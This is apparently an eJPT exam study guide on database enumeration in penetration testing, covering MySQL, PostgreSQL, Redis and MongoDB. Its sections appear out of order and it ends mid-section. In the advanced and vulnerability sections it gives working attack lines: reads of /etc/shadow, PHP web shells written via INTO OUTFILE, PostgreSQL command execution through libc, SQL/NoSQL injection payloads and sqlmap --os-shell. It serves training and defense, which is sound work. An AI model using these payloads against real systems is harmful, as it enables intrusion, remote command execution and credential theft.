1. **Systematic Approach**: Follow a structured methodology for consistent results
2. **Tool Proficiency**: Master essential tools (Nmap, database clients, SQLMap)
3. **Quick Recognition**: Rapidly identify database services and types
4. **Efficient Testing**: Test authentication methods systematically
5. **Thorough Documentation**: Record all findings for reporting

#### Common Pitfalls to Avoid
- Rushing through authentication testing without trying common credentials
- Missing non-standard ports where database services might run
- Failing to test for NoSQL databases (Redis, MongoDB)
- Not documenting the enumeration process adequately
- Overlooking privilege escalation opportunities within databases

### Exam Preparation Checklist

#### Essential Commands (Must Memorize)
```bash
# Service Discovery
nmap -p 3306,5432,1433,6379,27017 -sV target

# Authentication Testing
mysql -h target -u root -p
psql -h target -U postgres
redis-cli -h target

# Basic Enumeration
SHOW DATABASES; SHOW TABLES; DESCRIBE table_name;
\l; \dt; \d table_name;
INFO; KEYS *;
```

#### Practice Environment Setup
```bash
# Setup vulnerable database containers for practice
docker run -d --name mysql-vuln -e MYSQL_ALLOW_EMPTY_PASSWORD=yes -p 3306:3306 mysql:5.7
docker run -d --name postgres-vuln -e POSTGRES_HOST_AUTH_METHOD=trust -p 5432:5432 postgres:12
docker run -d --name redis-vuln -p 6379:6379 redis:latest
```

#### Final Preparation Steps
1. **Practice Daily**: Enumerate databases on vulnerable VMs daily
2. **Time Management**: Complete full enumeration in under 15 minutes
3. **Screenshot Preparation**: Know what evidence to capture
4. **Command Shortcuts**: Create aliases for frequently used commands
5. **Troubleshooting Skills**: Practice recovering from connection issues

### Security Recommendations for Defenders

#### Immediate Actions
- Change all default database passwords
- Disable remote root/administrator access
- Enable authentication on all database services
- Implement connection encryption (SSL/TLS)

#### Long-term Security Measures
- Regular security assessments and penetration testing
- Database activity monitoring and alerting
- Principle of least privilege for database users
- Network segmentation and firewall rules
- Regular backup and recovery testing

---

## 📚 Additional Resources and References

### Official Documentation
- **MySQL**: https://dev.mysql.com/doc/refman/8.0/en/
- **PostgreSQL**: https://www.postgresql.org/docs/current/
- **Redis**: https://redis.io/documentation
- **MongoDB**: https://docs.mongodb.com/
- **Microsoft SQL Server**: https://docs.microsoft.com/en-us/sql/

### Security Testing Resources
- **OWASP Database Security**: https://owasp.org/www-project-database-security/
- **HackTricks Database**: https://book.hacktricks.xyz/network-services-pentesting/pentesting-databases
- **SQLMap Documentation**: https://sqlmap.org/
- **Nmap NSE Scripts**: https://nmap.org/nsedoc/

### Practice Environments
- **VulnHub**: Database-focused vulnerable VMs
- **HackTheBox**: Database enumeration challenges
- **DVWA**: Damn Vulnerable Web Application with database backends
- **SQLi-labs**: SQL injection practice platform

### Community and Learning
- **Reddit r/netsec**: Network security discussions
- **InfoSec Community**: Database security forums
- **YouTube Channels**: Database penetration testing tutorials
- **Cybrary**: Free database security courses

---

*This guide serves as a comprehensive reference for database enumeration in penetration testing contexts. Regular practice with these techniques on authorized systems will improve proficiency and exam readiness. Always ensure proper authorization before conducting any security testing activities.*List all databases
SHOW DATABASES;

-- Select and use a database
USE database_name;

-- List all tables in current database
SHOW TABLES;

-- Get table structure
DESCRIBE table_name;
SHOW CREATE TABLE table_name;

-- List columns with detailed information
SHOW COLUMNS FROM table_name;

-- Get table information from information_schema
SELECT table_name, table_rows, data_length 
FROM information_schema.tables 
WHERE table_schema = 'database_name';
```

#### User and Privilege Enumeration
```sql
-- Current user privileges
SHOW GRANTS;
SHOW GRANTS FOR 'username'@'hostname';

-- List all MySQL users
SELECT user, host FROM mysql.user;

-- Check for dangerous privileges
SELECT user, host, Super_priv, File_priv, Process_priv 
FROM mysql.user;

-- List users with specific privileges
SELECT user, host FROM mysql.user WHERE Super_priv = 'Y';
SELECT user, host FROM mysql.user WHERE File_priv = 'Y';
```

#### Advanced MySQL Enumeration
```sql
-- Find sensitive data in column names
SELECT table_schema, table_name, column_name 
FROM information_schema.columns 
WHERE column_name LIKE '%pass%' 
   OR column_name LIKE '%user%' 
   OR column_name LIKE '%email%'
   OR column_name LIKE '%credit%'
   OR column_name LIKE '%card%';

-- Search for specific patterns in database names
SELECT schema_name FROM information_schema.schemata 
WHERE schema_name LIKE '%admin%' 
   OR schema_name LIKE '%user%' 
   OR schema_name LIKE '%app%';

-- Check for stored procedures and functions
SHOW PROCEDURE STATUS;
SHOW FUNCTION STATUS;

-- Check MySQL configuration
SHOW VARIABLES;
SELECT * FROM information_schema.global_variables 
WHERE variable_name IN ('secure_file_priv', 'general_log', 'log_output');
```

### PostgreSQL Enumeration

#### Basic Connection and Information
```bash
# Connect to PostgreSQL
psql -h target_ip -U postgres

# Basic information
SELECT version();                    # PostgreSQL version
SELECT current_user;                # Current user
SELECT current_database();          # Current database
SELECT inet_server_addr();          # Server IP
SELECT inet_server_port();          # Server port
```

#### Database and Schema Enumeration
```sql
-- List all databases
\l
SELECT datname FROM pg_database;

-- Connect to specific database
\c database_name

-- List schemas
\dn
SELECT schema_name FROM information_schema.schemata;

-- List tables
\dt
SELECT table_name FROM information_schema.tables 
WHERE table_schema = 'public';

-- Table structure
\d table_name
SELECT column_name, data_type, is_nullable 
FROM information_schema.columns 
WHERE table_name = 'table_name';
```

#### User and Role Enumeration
```sql
-- List users and roles
\du
SELECT usename FROM pg_user;
SELECT rolname FROM pg_roles;

-- Current user privileges
SELECT current_user, session_user;
SELECT * FROM information_schema.role_table_grants 
WHERE grantee = current_user;

-- Check superuser privileges
SELECT usename, usesuper FROM pg_user;
SELECT rolname, rolsuper FROM pg_roles WHERE rolsuper = true;
```

#### Advanced PostgreSQL Enumeration
```sql
-- Find sensitive columns
SELECT table_schema, table_name, column_name 
FROM information_schema.columns 
WHERE column_name ILIKE '%pass%' 
   OR column_name ILIKE '%user%' 
   OR column_name ILIKE '%email%'
   OR column_name ILIKE '%credit%';

-- List all functions and procedures
\df
SELECT routine_name, routine_type 
FROM information_schema.routines 
WHERE routine_schema = 'public';

-- Check PostgreSQL settings
SHOW ALL;
SELECT name, setting FROM pg_settings 
WHERE name IN ('log_statement', 'log_directory', 'data_directory');
```

### Redis Enumeration

#### Basic Information Gathering
```bash
# Connect to Redis
redis-cli -h target_ip

# Server information
INFO
INFO server
INFO memory
INFO keyspace

# Configuration
CONFIG GET "*"
CONFIG GET "requirepass"  # Check if password is set
CONFIG GET "dir"          # Working directory
CONFIG GET "dbfilename"   # Database filename
```

#### Key Enumeration and Data Access
```bash
# List all keys (dangerous on large databases)
KEYS *

# Better approach - scan with patterns
SCAN 0 MATCH *user*
SCAN 0 MATCH *pass*
SCAN 0 MATCH *session*

# Count keys
DBSIZE

# Get key information
TYPE keyname
TTL keyname

# Access different data types
GET keyname                    # String
HGETALL keyname               # Hash
LRANGE keyname 0 -1           # List
SMEMBERS keyname              # Set
ZRANGE keyname 0 -1           # Sorted Set
```

#### Redis Security Assessment
```bash
# Check for dangerous commands
CONFIG GET "rename-command"
CONFIG GET "protected-mode"

# Test dangerous operations
FLUSHALL                      # Clear all data (test only!)
CONFIG SET dir /tmp           # Change directory
CONFIG SET dbfilename test    # Change filename
SAVE                         # Force save to disk
```

### MongoDB Enumeration

#### Basic Connection and Information
```bash
# Connect to MongoDB
mongo target_ip:27017

# Basic information
db.version()
db.runCommand("buildinfo")
db.runCommand("hostInfo")
db.adminCommand("listCollections")
```

#### Database and Collection Enumeration
```javascript
// List databases
show dbs
db.adminCommand("listDatabases")

// Switch database
use database_name

// List collections
show collections
db.getCollectionNames()

// Collection statistics
db.collection_name.stats()
db.collection_name.count()

// Sample documents
db.collection_name.findOne()
db.collection_name.find().limit(5)
```

#### User and Authentication Enumeration
```javascript
// List users
db.getUsers()
db.system.users.find()

// Current user
db.runCommand("connectionStatus")

// Check authentication
db.runCommand({usersInfo: 1})
```

---

## 8. Advanced Techniques

### File Operations and Code Execution

#### MySQL File Operations
```sql
-- Check file privileges
SELECT file_priv FROM mysql.user WHERE user = 'current_user';

-- Read files from system
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/shadow');
SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts');

-- Write files to system (web shell upload)
SELECT "<?php system($_GET['cmd']); ?>" 
INTO OUTFILE '/var/www/html/shell.php';

SELECT "<?php echo shell_exec($_GET['cmd']); ?>" 
INTO OUTFILE '/tmp/cmd.php';

-- Log file analysis
SELECT LOAD_FILE('/var/log/mysql/mysql.log');
```

#### PostgreSQL Advanced Operations
```sql
-- Check for file access functions
SELECT current_setting('log_directory');
SELECT current_setting('data_directory');

-- Command execution (if available)
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('id');

-- Copy data to files
COPY (SELECT 'test') TO '/tmp/test.txt';
```

### Database Interconnection Analysis

#### Cross-Database Queries
```sql
-- MySQL: Access other databases
SELECT * FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'other_db';

-- PostgreSQL: Database links
SELECT * FROM pg_database;
\c other_database
```

#### Network Analysis from Database
```sql
-- MySQL: Network connectivity testing
SELECT SUBSTRING_INDEX(USER(), '@', -1) AS host;
SHOW VARIABLES LIKE 'hostname';

-- Check for linked servers (MSSQL)
SELECT * FROM sys.servers;
EXEC sp_linkedservers;
```

---

## 9. Common Vulnerabilities

### SQL Injection Identification

#### Manual Testing
```bash
# Basic SQL injection tests
curl "http://target/app.php?id=1'"
curl "http://target/app.php?id=1' OR '1'='1"
curl "http://target/app.php?id=1' UNION SELECT 1,2,3--"

# Time-based blind SQL injection
curl "http://target/app.php?id=1' AND SLEEP(5)--"
curl "http://target/app.php?id=1'; WAITFOR DELAY '00:00:05'--"
```

#### Automated Testing with SQLMap
```bash
# Basic SQLMap usage
sqlmap -u "http://target/app.php?id=1" --dbs
sqlmap -u "http://target/app.php?id=1" -D database_name --tables
sqlmap -u "http://target/app.php?id=1" -D database_name -T table_name --columns
sqlmap -u "http://target/app.php?id=1" -D database_name -T table_name -C column1,column2 --dump

# Advanced SQLMap options
sqlmap -u "http://target/app.php?id=1" --os-shell
sqlmap -u "http://target/app.php?id=1" --sql-shell
sqlmap -u "http://target/app.php?id=1" --file-read="/etc/passwd"
```

### NoSQL Injection

#### MongoDB Injection Testing
```bash
# Basic MongoDB injection
curl "http://target/login" -d "username[$ne]=null&password[$ne]=null"
curl "http://target/search" -d "query[$regex]=.*"

# NoSQLMap usage
python nosqlmap.py -u "http://target/login" --data "username=admin&password=password"
```

### Configuration Vulnerabilities

#### Common Misconfigurations
- **Default credentials** not changed
- **Remote access** enabled without proper security
- **Weak passwords** or no passwords
- **Excessive privileges** granted to users
- **Unencrypted connections** allowed
- **Debug/test databases** left accessible
- **File system access** permissions too broad

---

## 10. Reporting & Documentation

### Evidence Collection Checklist

#### Screenshots Required
- [ ] Port scan results showing database services
- [ ] Successful authentication attempts
- [ ] Database enumeration outputs
- [ ] Sensitive data discoveries
- [ ] Privilege escalation evidence
- [ ] Configuration vulnerabilities

#### Command Documentation
```markdown
### Commands Executed

```bash
# Service Discovery
nmap -p 3306,5432,1433 -sV 192.168.1.100

# Authentication Testing  
mysql -h 192.168.1.100 -u root -p

# Database Enumeration
SHOW DATABASES;
USE webapp_db;
SHOW TABLES;
SELECT * FROM users LIMIT 10;
```
```

### Professional Report Template

```markdown
# Database Security Assessment Report

## Executive Summary
- **Target System**: 192.168.1.100
- **Assessment Date**: November 26, 2024
- **Databases Identified**: MySQL, PostgreSQL, Redis
- **Critical Findings**: Default credentials, unencrypted connections, sensitive data exposure

## Technical Findings

### 1. MySQL Service (Port 3306)
**Vulnerability**: Default credentials
- **Impact**: HIGH
- **Evidence**: Successfully logged in using root/(blank)
- **Affected Data**: User accounts, payment information
- **Recommendation**: Change default passwords, implement strong authentication

### 2. PostgreSQL Service (Port 5432)
**Vulnerability**: Weak authentication
- **Impact**: HIGH  
- **Evidence**: postgres/postgres credentials accepted
- **Affected Data**: Employee records, salary information
- **Recommendation**: Enforce password complexity, enable connection encryption

### 3. Redis Service (Port 6379)
**Vulnerability**: No authentication required
- **Impact**: MEDIUM
- **Evidence**: Direct access without credentials
- **Affected Data**: Session tokens, cached user data
- **Recommendation**: Enable authentication, restrict network access

## Risk Assessment Matrix

| Vulnerability | Likelihood | Impact | Risk Level |
|---------------|------------|---------|------------|
| Default MySQL credentials | High | High | **CRITICAL** |
| PostgreSQL weak auth | High | High | **CRITICAL** |
| Redis no authentication | Medium | Medium | **HIGH** |
| Unencrypted connections | High | Medium | **HIGH** |

## Recommendations

### Immediate Actions (Critical Priority)
1. Change all default database passwords
2. Disable remote root access for MySQL
3. Enable Redis authentication
4. Restrict database network access

### Short-term Actions (High Priority)
1. Implement SSL/TLS encryption for database connections
2. Create dedicated database users with minimal privileges
3. Enable database audit logging
4. Remove test/demo databases

### Long-term Actions (Medium Priority)
1. Implement database activity monitoring
2. Regular security assessments
3. Database hardening according to CIS benchmarks
4. Staff security training

## Detailed Technical Evidence

### MySQL Enumeration Results
```sql
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| webapp_db          |
+--------------------+

mysql> USE webapp_db;
mysql> SHOW TABLES;
+---------------------+
| Tables_in_webapp_db |
+---------------------+
| users               |
| admin               |
| payments            |
+---------------------+
```

### Sensitive Data Samples
**Users Table Structure:**
```sql
mysql> DESCRIBE users;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | int(11)     | NO   | PRI | NULL    |       |
| username | varchar(50) | NO   |     | NULL    |       |
| password | varchar(50) | NO   |     | NULL    |       |
| email    | varchar(100)| YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
```

**Critical Finding**: Passwords stored in plaintext format
```sql
mysql> SELECT username, password FROM users LIMIT 3;
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin123 |
| john     | password |
| alice    | qwerty   |
+----------+----------+
```
```

---

## 11. Exam Focus & Practice

### eJPT Specific Skills

#### Essential Commands (Memorize These)
```bash
# Service Discovery (Weight: 25%)
nmap -p 3306,5432,1433,6379,27017 -sV target
nmap --script "mysql* or postgres*" -p 3306,5432 target

# Authentication Testing (Weight: 30%)
mysql -h target -u root -p                    # Test blank password
psql -h target -U postgres                    # Test default credentials
redis-cli -h target                           # Test no authentication

# Basic Enumeration (Weight: 35%)
# MySQL
SHOW DATABASES; USE database_name; SHOW TABLES; DESCRIBE table_name;

# PostgreSQL  
\l; \c database_name; \dt; \d table_name;

# Data Extraction (Weight: 10%)
SELECT * FROM sensitive_table LIMIT 10;
```

#### Practice Scenarios

##### Scenario 1: Web Application Database Discovery
**Objective**: Find and access the database supporting a web application
```bash
# Expected approach:
1. nmap -p- target_web_server
2. Identify database ports (3306, 5432, etc.)
3. Test default credentials
4. Enumerate web application databases
5. Extract user credentials
```

##### Scenario 2: Internal Network Database Services
**Objective**: Discover all database services in a network range
```bash
# Expected approach:
1. nmap -p 3306,5432,1433 192.168.1.0/24
2. Service version identification
3. Authentication testing for each service
4. Document all accessible databases
```

##### Scenario 3: NoSQL Database Assessment
**Objective**: Assess MongoDB or Redis instances
```bash
# Expected approach:
1. Port scan for 27017, 6379
2. Test anonymous access
3. Enumerate collections/keys
4. Identify sensitive data storage
```

### Common Exam Questions

#### Question Types and Solutions

**Q: "What databases are running on the target system?"**
```bash
# Solution approach:
nmap -p 1433,3306,5432,1521,6379,27017 -sV target
# Look for: mysql, postgres, ms-sql-s, oracle, redis, mongodb
```

**Q: "Can you access the MySQL database without credentials?"**
```bash
# Solution approach:
mysql -h target -u root -p
# Try: blank password, 'root', 'admin', 'password'
```

**Q: "List all databases accessible on the PostgreSQL server"**
```bash
# Solution approach:
psql -h target -U postgres
postgres=# \l
# or: SELECT datname FROM pg_database;
```

**Q: "What sensitive information is stored in the database?"**
```sql
-- Solution approach:
-- 1. Find tables with sensitive names
SHOW TABLES;
-- 2. Look for columns containing sensitive data
SELECT column_name FROM information_schema.columns 
WHERE column_name LIKE '%pass%' OR column_name LIKE '%credit%';
-- 3. Sample the data
SELECT * FROM users LIMIT 5;
```

### Time Management Tips

#### Efficient Workflow (20 minutes per target)
1. **Service Discovery** (3 minutes): Quick port scan for database services
2. **Authentication** (5 minutes): Test default credentials rapidly
3. **Enumeration** (7 minutes): Basic database and table listing
4. **Data Sampling** (3 minutes): Quick sensitive data identification  
5. **Documentation** (2 minutes): Screenshot and note critical findings

#### Quick Reference Commands
```bash
# 30-second database check
nmap -p 3306,5432,1433,6379 -sV --open target

# 2-minute authentication test
for db in mysql postgresql; do
    echo "Testing $db..."
    # Insert appropriate connection commands
done

# 5-minute enumeration script
mysql -h target -u root -p << 'EOF'
SHOW DATABASES;
SELECT schema_name FROM information_schema.schemata;
EOF
```

---

## 12. Troubleshooting

### Common Issues and Solutions

#### Connection Problems

**Issue**: "Connection refused" or "Host unreachable"
```bash
# Troubleshooting steps:
1. Verify service is running
   nmap -p 3306 target
   
2. Check for firewall blocking
   nmap -p 3306 -Pn target
   
3. Try alternative ports
   nmap -p 3305-3310 target
   
4. Verify network connectivity
   ping target
   telnet target 3306
```

**Issue**: "Access denied" or "Authentication failed"
```bash
# Troubleshooting steps:
1. Verify username/password combination
2. Try different authentication methods
   mysql -h target -u root -p --protocol=TCP
   mysql -h target -u root -p --ssl-mode=DISABLED
   
3. Check for account lockouts
4. Try alternative usernames
   mysql -h target -u admin -p
   mysql -h target -u mysql -p
```

#### Enumeration Problems

**Issue**: "Permission denied" for enumeration commands
```sql
-- Troubleshooting steps:
-- 1. Check current user privileges
SHOW GRANTS;
SELECT USER(), DATABASE();

-- 2. Try alternative enumeration methods
SELECT * FROM information_schema.tables WHERE table_schema = 'mysql';
SELECT * FROM information_schema.columns WHERE table_schema = 'mysql';

-- 3. Use different database connections
mysql -h target -u different_user -p
```

**Issue**: Database queries timing out or hanging
```bash
# Troubleshooting steps:
1. Set connection timeout
   mysql -h target -u root -p --connect-timeout=10
   
2. Use non-interactive mode
   mysql -h target -u root -p --batch --execute="SHOW DATABASES;"
   
3. Check server load
   mysql -h target -u root -p -e "SHOW PROCESSLIST;"
```

### Performance Optimization

#### Large Database Handling
```sql
-- For databases with many tables/rows:
-- 1. Use LIMIT clauses
SELECT * FROM large_table LIMIT 100;

-- 2. Count before selecting
SELECT COUNT(*) FROM large_table;

-- 3. Use specific column selection
SELECT id, username FROM users LIMIT 10;

--
